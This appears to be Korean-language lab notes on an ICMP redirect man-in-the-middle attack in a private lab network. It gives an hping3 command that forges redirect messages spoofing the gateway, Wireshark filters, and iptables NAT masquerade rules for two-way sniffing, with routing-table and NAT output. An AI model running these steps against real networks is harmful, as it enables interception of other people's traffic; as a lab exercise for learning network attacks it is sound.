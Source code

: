 

###### CentOS

[root@Linux-11 바탕화면]# route

```
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
172.16.10.0     *               255.255.255.0   U     0      0        0 eth0
link-local      *               255.255.0.0     U     1002   0        0 eth0
default         172.16.10.254   0.0.0.0         UG    0      0        0 eth0
```



#### ICMP Redirect 메세지 보내기 

###### 칼리 

root@kali-04:~# hping3 -1 -C 5 -K 1 --icmp-gw 172.16.10.30 --icmp-ipsrc 172.16.10.20 --icmp-ipdst 8.8.8.8 -a 172.16.10.254 172.16.10.20



와이어샤크 ㅣ icmp

```
Src : 172.16.10.20  Dst : 8.8.8.8

```



###### CentOS

[root@Linux-11 바탕화면]# ping 8.8.8.8



###### 칼리

와이어 샤크 : icmp && ip.addr == 8.8.8.8



#### 양방향 Sniffing 

###### 칼리

NAT 설정을 해야 한다.

root@kali-04:~# iptables -t nat -A POSTROUTING -s 172.16.10.0/24 -o eth0 -j MASQUERADE
root@kali-04:~# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
MASQUERADE  all  --  172.16.10.0/24       anywhere            

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         

```

